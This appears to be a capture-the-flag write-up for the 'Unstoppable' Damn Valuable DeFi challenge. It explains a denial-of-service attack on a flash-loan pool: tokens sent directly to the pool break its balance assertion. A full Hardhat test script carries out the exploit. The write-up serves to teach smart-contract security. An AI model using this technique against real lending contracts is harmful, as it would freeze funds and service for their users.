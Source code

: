 By bypassing the logic configured in the contract, the balance value of the contract was added abnormally, so `assert(poolBlance == balanceBefore);` error handling was performed on flashLoan, which could cause a contract error to cause DOS.

## Solve

Call the transfer function without adding a contract balance through the `depoitToken` function to add a contract balance, and finally call the flashLoan function. An exception occurred successfully through testing, and DOS attack completed successfully.

``` tsx
const { expect } = require('chai');

describe('[Challenge] Unstoppable', function () {
    let deployer, attacker, someUser;

    const TOKENS_IN_POOL = ethers.utils.parseEther('1000000');
    const INITIAL_ATTACKER_TOKEN_BALANCE = ethers.utils.parseEther('100');

    before(async function () {
        [deployer, attacker, someUser] = await ethers.getSigners();

        const tokenFactory = await ethers.getContractFactory('DamnValuableToken', deployer);
        const UnstoppableLenderFactory = await ethers.getContractFactory('UnstoppableLender', deployer);

        this.token = await tokenFactory.deploy();
        this.pool = await UnstoppableLenderFactory.deploy(this.token.address);

        await this.token.approve(this.pool.address, TOKENS_IN_POOL);
        await this.pool.depositTokens(TOKENS_IN_POOL);

        await this.token.transfer(attacker.address, INITIAL_ATTACKER_TOKEN_BALANCE);

        expect(
            await this.token.balanceOf(this.pool.address)
        ).to.equal(TOKENS_IN_POOL);

        expect(
            await this.token.balanceOf(attacker.address)
        ).to.equal(INITIAL_ATTACKER_TOKEN_BALANCE);

        const ReceiverContractFactory = await ethers.getContractFactory('ReceiverUnstoppable', someUser);

        this.receiverContract = await ReceiverContractFactory.deploy(this.pool.address);
        await this.receiverContract.executeFlashLoan(10);

    });
    
    it('Exploit', async function () {
        await (this.token.connect(attacker)).transfer(
            this.pool.address,
            INITIAL_ATTACKER_TOKEN_BALANCE
        )
    });

    after(async function () {
        await expect(
            this.receiverContract.executeFlashLoan(10)
        ).to.be.reverted;
    });
});
```